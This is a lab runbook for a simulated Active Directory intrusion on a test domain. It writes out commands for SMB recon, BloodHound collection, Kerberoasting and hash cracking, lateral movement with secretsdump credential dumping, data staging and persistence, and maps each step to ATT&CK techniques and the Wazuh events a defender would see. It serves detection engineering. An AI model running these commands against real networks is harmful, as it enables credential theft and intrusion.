


# Phase 2 manual runbook

Run from the Kali box, in order. Each step lists the command, what you should
see, the ATT&CK technique, and **what the defender should (or shouldn't) see** in
Wazuh. Record the reality in the Phase 2 lab note as you go.

> Scenario reminder: `v-coolair`'s password was stolen by an infostealer on the
> vendor's PC. You start here, already holding `CoolAir2024!`.

---

## Step 0 — Prep

Seed the escalation path and bring up the attacker (see `README.md`). Set your
working creds:

```bash
cd attack/scripts
source 00-config.sh
echo "$VENDOR_USER @ $DOMAIN via $DC_IP"
```

---

## Step 1 — Recon  (`T1078.002`, `T1018`, `T1135`, `T1087.002`)

```bash
nxc smb "$DC_IP" -u "$VENDOR_USER" -p "$VENDOR_PASS"
nxc smb "$DC_IP" "$FS_IP" -u "$VENDOR_USER" -p "$VENDOR_PASS" --shares
nxc smb "$DC_IP" -u "$VENDOR_USER" -p "$VENDOR_PASS" --users
```

**Expect:** the credential authenticates; `READ` access shows on the `Finance`
share even though the vendor is HVAC (weakness **W4**).

**Defender sees:** a run of 4624 type-3 logons from one IP, and 5140/5145 share
access on fs01. At baseline there's no rule that says a *vendor* account touching
*Finance* is wrong — this is the core blind spot.

---

## Step 2 — BloodHound  (`T1482`, `T1069.002`)

```bash
bloodhound-python -u "$VENDOR_USER" -p "$VENDOR_PASS" -d "$DOMAIN" -ns "$DC_IP" -c All --zip
```

Import the zip into BloodHound CE. Run **Find Kerberoastable accounts** and mark
`v-coolair` as owned; you should see a path to `svc-backup` and
`svc-backup —AdminTo→ fs01`.

**Defender sees:** a spike of LDAP queries and 4624s. The Python collector is
quieter than SharpHound (which would light up 4662). Noisy to a tuned SIEM,
invisible to the baseline.

---

## Step 3 — Kerberoast  (`T1558.003`)

```bash
impacket-GetUserSPNs "$DOMAIN/$VENDOR_USER:$VENDOR_PASS" -dc-ip "$DC_IP" -request -outputfile kerberoast.hashes
hashcat -m 13100 kerberoast.hashes ../wordlists/lab-seasons.txt --potfile-disable
```

**Expect:** `svc-backup` cracks to `Autumn2024!`.

**Defender sees:** a single **4769** service-ticket request for the `svc-backup`
SPN with RC4 encryption (`0x17`) — the classic Kerberoasting signature. The crack
is offline and invisible; the 4769 is the only signal, which is why that
detection matters.

---

## Step 4 — Lateral movement  (`T1021`, `T1003`)

```bash
nxc smb "$FS_IP" -u svc-backup -p 'Autumn2024!'                 # expect Pwn3d!
nxc smb "$FS_IP" -u svc-backup -p 'Autumn2024!' -x "whoami"
impacket-secretsdump "acme.lab/svc-backup:Autumn2024!@$FS_IP"
```

**Defender sees:** 4624 type 3 + 4672 (admin logon) for svc-backup on fs01, plus
a 7045 service install from secretsdump. A service account logging in
interactively and dumping secrets is highly abnormal — prime detection material.

---

## Step 5 — Collection + exfil  (`T1039`, `T1560`, `T1074`)

```bash
./05-collect-exfil.sh 'Autumn2024!'
```

**Expect:** the fake Finance/HR CSVs staged and archived under `../loot/`.

**Defender sees:** a burst of 5145 detailed file reads across the sensitive
shares in a short window — a data-staging signature.

---

## Step 6 — Persistence  (`T1053.005`, `T1136.001`)

```bash
./06-persistence.sh 'Autumn2024!'
```

**Expect:** scheduled task `AcmeUpdater` and local admin `svc-helpdesk` created
on fs01 (both benign).

**Defender sees:** 4698 (task created), 4720 (account created), 4732 (added to
Administrators).

**Clean up when done:**
```bash
nxc smb "$FS_IP" -u svc-backup -p 'Autumn2024!' -x 'schtasks /delete /tn AcmeUpdater /f & net user svc-helpdesk /del'
```

---

## Evidence captured

<!-- IMAGE: 02-svc-account-cracked-fs01-pwned.png -->
 

<!-- IMAGE: 03-exfiltrated-finance-data.png -->
 

## Wrap-up

Tally, per step, what Wazuh caught at baseline (likely very little). That tally is
Phase 3's to-do list: every missed step becomes a detection. Save the BloodHound
graph screenshot — it's one of the most legible artifacts for a write-up.
